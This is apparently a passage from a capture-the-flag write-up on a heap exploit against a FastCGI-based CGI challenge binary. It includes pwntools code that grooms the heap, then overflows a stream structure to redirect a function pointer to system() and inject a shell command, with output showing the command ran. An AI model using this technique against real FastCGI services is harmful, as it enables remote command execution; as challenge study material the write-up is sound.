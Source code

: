 The first step is to send a dummy request to allocate and free some chunks, preparing the heap for the second stage where the actual exploitation occurs.  
I used functions from the **PoC** to make requests to the CGI application.
```py
def dummy_request():
    p = remote(HOST, PORT)

    header = makeHeader(9, 0, 0, 0)
    payload = flat(
        makeHeader(1, 1, 8, 0),
        makeBeginReqBody(1, 0),
        header,
        p8(75)*2 + b"A"*(75*2)
    )

    p.send(payload)
    p.close()


dummy_request()
dummy_request()
```
I used the first dummy request to trigger allocations and frees, and the second one to pause at `FCGX_GetChar` for inspecting the heap.  

![heap](/blog/images/d3cgi/heap.png)  

In the attack function, I first filled a large freed chunk, and then implemented the exploitation idea as described earlier.

```py
def attack(cmd : bytes):
    assert(len(cmd) <= 18)
    p = remote(HOST, PORT)

    header = makeHeader(9, 0, 0x2500, 0)
    payload = flat(
        makeHeader(1, 1, 8, 0),
        makeBeginReqBody(1, 0),
        header,
        # 0xffb * 2 + 2 = 0x1ff8 -> 0x2000 chunk
        p32(0xffb | (1 << 31), endianness='big') * 2,
        b"A" * (0xffb * 2),
        # 0x7fffffff * 2 + 2 = 0x0 -> 0x10 chunk
        p32(0xffffffff)*2,
        # chunk metadata
        b"A" * 0x10,
        # FCGX_Stream
        b" ;" + cmd.ljust(18, b' '),
        p32(0) * 3,
        # fillBuffProc
        p32(exe.plt["system"])
    )

    p.send(payload)
    p.close()


dummy_request()
attack(b"ls")
```
It worked, so all that remained was to find a way to retrieve the flag.
```sh
$ spawn-fcgi -n -p 9555 -- ./challenge
sh: line 1: T: command not found
```
